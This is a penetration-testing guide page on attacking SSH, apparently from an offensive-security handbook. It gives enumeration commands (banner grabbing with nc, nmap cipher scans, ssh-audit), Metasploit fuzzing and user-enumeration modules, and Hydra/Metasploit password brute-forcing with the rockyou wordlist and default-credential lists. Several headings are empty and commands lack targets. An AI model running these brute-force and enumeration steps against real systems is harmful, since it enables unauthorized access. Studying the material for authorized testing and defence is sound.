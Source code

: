 ```yaml
---
authors: ShutdownRepo
---
```


# 🛠️ SSH

## Theory

The SSH protocol (Secure Shell) is used to login from one machine to another securely. It offers several options for strong authentication, as it protects the connections and communications security and integrity with strong encryption. This connection can be used for terminal access, file transfers, and for tunneling other applications.

## Enumeration

### Authentication type

It is possible to enumerate the allowed authentication types with the following command:

```bash
ssh -v 
OpenSSH_8.1p1, OpenSSL 1.1.1d 10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive
```

### Banner Grabbing

Useful to get basic information about the SSH server such as its type and version.

```bash
nc -vn  22
...
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
```

### Server's public SSH key

```bash
ssh-keyscan -t rsa  -p 
```

### Weak Cipher Algorithms

Some auditing tools can help to quikly find the target version and which algorithms are available on the server in order to give recommendations to the customer.

::: tabs

=== sslscan

```bash
sslscan :22
```


=== nmap

```bash
nmap -p22 -n -sV --script ssh2-enum-algos 
```


=== ssh-audit

```bash
ssh-audit -p 22 -4 
```

:::


### SSH fuzzing

Fuzzing the SSH service could help to find vulnerabilities. The automated fuzzing is simple but not very targeted so it usually takes a lot of time and could miss some results.\
The custom and the manual approach is more effective but it takes time to familiarize yourself with the target. Here is an example of a custom fuzzing : [Fuzzing the OpenSSH daemon using AFL](https://github.com/ShutdownRepo/Penetration-Testing-Guides/tree/5140c07692d27c9b3162088ed3aeff1bbbf23d23/servers/abusing-services/www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html).

::: tabs

=== Automated fuzzing

```bash
msfconsole
use auxiliary/fuzzers/ssh/ssh_version_2
set RHOSTS 
run
```

:::


## Attacks

### Weak cryptographic keys

### Authentication bruteforcing

#### User enumeration

```bash
msfconsole
use scanner/ssh/ssh_enumusers
set RHOSTS 
set USER_FILE 
```

#### Password Bruteforcing

::: tabs

=== Hydra

```bash
hydra -l  -s 22 -P   -t 4 ssh
```


=== Metasploit

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set PASS_FILE /usr/share/wordlists/password/rockyou.txt
set RHOSTS 
set STOP_ON_SUCCESS true
set username 
run
```

:::


Some common ssh credentials [here ](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt)and [here](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt).

#### Private key Bruteforcing

## Resources

[https://book.hacktricks.xyz/pentesting/pentesting-ssh](https://book.hacktricks.xyz/pentesting/pentesting-ssh)

[https://community.turgensec.com/ssh-hacking-guide/](https://community.turgensec.com/ssh-hacking-guide/)
